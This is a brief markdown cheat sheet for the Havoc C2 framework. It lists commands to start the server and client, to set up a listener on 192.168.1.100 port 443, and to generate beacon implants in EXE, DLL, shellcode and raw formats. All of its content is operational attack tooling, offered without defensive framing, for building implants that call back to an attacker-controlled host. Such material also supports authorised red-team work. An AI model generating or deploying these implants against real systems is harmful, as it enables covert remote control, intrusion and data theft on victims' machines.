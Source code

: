 % cat/C2
# Havoc C2
## Basic Usage
### Start Havoc Server
```
sudo ./havoc server
```
### Start Havoc Client
```
./havoc client
```
## Payloads
### Generate Listener
```
havoc listener --name my_listener --host 192.168.1.100 --port 443
```
### Generate Payload (Windows EXE)
```
havoc payload --listener my_listener --format exe --output beacon.exe
```
### Generate Payload (Windows DLL)
```
havoc payload --listener my_listener --format dll --output beacon.dll
```
### Generate Payload (Shellcode)
```
havoc payload --listener my_listener --format shellcode --output beacon.bin
```
### Generate Payload (Raw)
```
havoc payload --listener my_listener --format raw --output beacon.raw
```
